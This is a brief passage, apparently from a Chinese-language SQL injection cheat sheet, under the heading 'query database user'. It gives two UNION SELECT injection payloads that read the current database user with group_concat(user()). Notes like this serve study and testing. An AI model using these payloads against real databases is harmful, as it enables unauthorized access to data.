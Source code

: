 ![image-20250221225311219](static/image/image-20250221225311219.png)

#### 查询数据库用户

````mysql
union select null,group_concat(user()),NULL
union select 1,group_concat(user()),3
````
